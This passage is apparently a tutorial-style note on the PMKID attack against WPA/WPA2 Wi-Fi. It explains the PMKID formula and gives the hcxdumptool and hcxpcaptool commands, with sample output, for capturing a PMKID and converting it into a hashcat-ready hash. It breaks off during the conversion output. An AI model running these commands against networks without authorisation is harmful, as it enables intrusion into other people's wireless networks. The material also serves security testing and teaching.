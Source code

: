 The PMKID is computed by using HMAC-SHA1 where the key is the PMK and the data part is the concatenation of a fixed string label "PMK Name", the access point's MAC address and the station's MAC address.  
  

Code:

`PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)`

  
Since the PMK is the same as in a regular EAPOL 4-way handshake this is an ideal attacking vector.  
  
We receive all the data we need in the first EAPOL frame from the AP.  
  

---

  
How to reproduce:  
  
1. Run hcxdumptool to request the PMKID from the AP and to dump the recieved frame to a file (in pcapng format).  
  

Code:

`$ ./hcxdumptool -o test.pcapng -i wlp39s0f3u4u5 --enable_status`

  
Output:  
  

![[Pasted image 20211027125353.png]]
  
If an AP recieves our association request packet and supports sending PMKID we will see a message "FOUND PMKID" after a moment:  
  

> Quote:[13:29:57 - 011] 89acf0e761f4 -> 4604ba734d4e <ESSID> [ASSOCIATIONREQUEST, SEQUENCE 4]  
> [13:29:57 - 011] 4604ba734d4e -> 89acf0e761f4 [ASSOCIATIONRESPONSE, SEQUENCE 1206]  
> [13:29:57 - 011] 4604ba734d4e -> 89acf0e761f4 [FOUND PMKID]

  
Note: Based on the noise on the wifi channel it can take some time to recieve the PMKID. We recommend running hcxdumptool up to 10 minutes before aborting.  
  
2. Run hcxpcaptool to convert the captured data from pcapng format to a hash format accepted by hashcat.  
  

Code:

`$ ./hcxpcaptool -z test.16800 test.pcapng`

  
Output:  
  

> Quote:start reading from test.pcapng  
>   
> summary:  
> --------  
> file name....................: test.pcapng  
> file type....................: pcapng 1.0  
> file hardware information....: x86_64  
> file os information..........: Linux 4.17.11-arch1  
> file application information.: hcxdumptool 4.2.0  
> network type.................: DLT_IEEE802_11_RADIO (127)  
> endianess....................: little endian  
> read errors..................: flawless  
> packets inside...............: 66  
> skipped packets..............: 0  
> packets with FCS.............: 0  
> beacons (with ESSID inside)..: 17  
> probe requests...............: 1  
> probe responses..............: 11  
> association requests.........: 5  